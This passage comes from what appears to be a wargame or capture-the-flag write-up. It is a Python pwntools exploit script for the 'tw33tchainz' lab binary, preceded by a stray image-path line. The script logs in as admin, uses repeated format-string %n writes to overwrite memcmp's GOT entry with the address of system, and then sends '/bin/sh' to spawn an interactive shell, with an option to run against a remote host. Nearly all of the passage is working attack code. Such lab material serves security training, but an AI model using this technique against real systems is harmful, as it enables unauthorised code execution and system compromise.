   r.sendline(adminpass)
  r.recvuntil("Authenticated!\n")
  log.success("Authenticated as admin!") 
  r.sendline("")
  
  ## OVERWRITE MEMCMP@GOT w/ SYSTEM
  r.recvuntil("Choice: ")
  r.sendline("6")
  r.sendline("")
  r.recvuntil("Choice: ")
  r.sendline("1")
  r.recvuntil(":")
  r.sendline("%x"*8)
  r.sendline("")
  r.recvuntil("Choice: ")
  r.sendline("1")
  r.recvuntil(":")
  # system     @ 0xb7e63190
  # memcmp@GOT @ 0x804d02c
  g = lambda x: str(int(x-5))
  r.sendline("B"+p32(0x804d02c)+"%139x%8$n"+"BB") #writes 0x90 to 0x804d02c
  r.sendline("")
  r.recvuntil("Choice:")
  r.sendline("1")
  r.recvuntil(":")
  r.sendline("B"+p32(0x804d02d)+"%44x%8$n"+"BBB") #writes 0x31 to 0x804d02d
  r.sendline("")
  r.recvuntil("Choice:")
  r.sendline("1")
  r.recvuntil(":")
  r.sendline("B"+p32(0x804d02e)+"%225x%8$n"+"BB") #writes 0xe6 to 0x804d02e
  r.sendline("")
  r.recvuntil("Choice:") 
  r.sendline("1")
  r.recvuntil(":")
  r.sendline("B"+p32(0x804d02f)+"%178x%8$n"+"BB") #writes 0xb7 to 0x804d02f
  r.sendline("")
  r.recvuntil("Choice: ")
  r.sendline("3")
  r.recvuntil(":")
  r.sendline("/bin/sh")
  
  r.interactive()
if __name__ == "__main__":
  log.info("For remote: %s HOST PORT" % sys.argv[0])
  if len(sys.argv) > 1:
    r = remote(sys.argv[1], int(sys.argv[2]))
    exploit(r)
  else:
    r = process(['/levels/project1/tw33tchainz'])
    print util.proc.pidof(r)
    pause()
    exploit(r)
{% endhighlight %}
<br/>
